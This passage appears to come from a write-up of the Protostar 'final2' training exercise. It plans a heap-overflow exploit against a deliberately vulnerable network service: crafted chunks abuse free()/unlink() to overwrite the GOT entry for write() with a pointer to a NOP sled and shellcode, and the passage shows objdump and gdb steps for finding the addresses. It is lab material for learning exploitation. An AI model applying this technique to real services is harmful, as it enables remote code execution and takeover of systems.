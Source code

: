 We want the following:

* overwrite chunk2 headers, that means that we need to place a "/" in the last byte of the first chunk
* we want to overwrite chunk2 headers in order to create a fake chunk with fd and bk pointers that allow us to overwrite an arbitrary address in memory
* we want to overwrite a GOTs table entry of a funtion called after the free() call and overwrite it with a an address pointing to a memory area we control
* we want to place a shellcode in that memory area that we control

So lets design our chunks:

* Chunk1 = "FSRD" + "X"*(128 - 4 - 1) + "/"
* Chunk2 = "FSRD" + "ROOT" + "/" + "new_chunk2_prev_size" + "new_chunk2_size" + "XXXX" + fake_chunk_bk" + "fake_chunk_fd" + "NOP Sled" + "shellcode"

Where:

* new_chunk2_prev_size will be a negative value (-4) so we fool free() to think that the chunk to unlink from bin is 4 bytes ahead of the chunk2 address and thats right after chunk2 "XXXX"
* new_chunk2_size will be an arbitrary value ending in 0 so PREV_IN_USE will be false. That will make free() want to find that previous chunk and unlink it from "bin" in order to consolidate it with the chunk being freed before inserting the just consolidated chunk into "bin" again

When unlink() is called on the fake chunk, the address stored in its fd pointer (*fd) will be copied to the address pointed in its bk->fd (bk + 12). *fd -> bk + 12. So the address we want to overwrite will be placed in  (bk + 12)

* fake_chunk_fd = &shellcode
* fake_chunk_bk = GOTs address - 12


We need to know GOTs address of a function called after free(), we will be using the write call right after the free() call in the loop:

```lang-bash line-numbers 
user@protostar:~$ objdump -TR /opt/protostar/bin/final2 | grep write
00000000      DF *UND*	00000000  GLIBC_2.0   write
00000000      DF *UND*	00000000  GLIBC_2.0   fwrite
0804d41c R_386_JUMP_SLOT   write
0804d468 R_386_JUMP_SLOT   fwrite
```

So the address we will be using in our exploit is 0x0804d41c - 0xc = 0x0804d410

We also need to know what is chunk2 address so we can calculate the &shellcode and we need to verify that the "free(destroylist[i])" is freeing our previously allocated chunks. We will use gdb and some breakpoints to find out these details:

```lang-bash line-numbers 
root@protostar:~# netstat -natp | grep final2
tcp        0      0 0.0.0.0:2993            0.0.0.0:*               LISTEN      1301/final2
```

```lang-bash line-numbers 
root@protostar:~# gdb -q /opt/protostar/bin/final2
Reading symbols from /opt/protostar/bin/final2...done.
(gdb) attach 1301
Attaching to program: /opt/protostar/bin/final2, process 1301
Reading symbols from /lib/libc.so.6...Reading symbols from /usr/lib/debug/lib/libc-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/libc.so.6
Reading symbols from /lib/ld-linux.so.2...Reading symbols from /usr/lib/debug/lib/ld-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
accept () at ../sysdeps/unix/sysv/linux/i386/socket.S:64
64	../sysdeps/unix/sysv/linux/i386/socket.S: No such file or directory.
	in ../sysdeps/unix/sysv/linux/i386/socket.S
Current language:  auto
```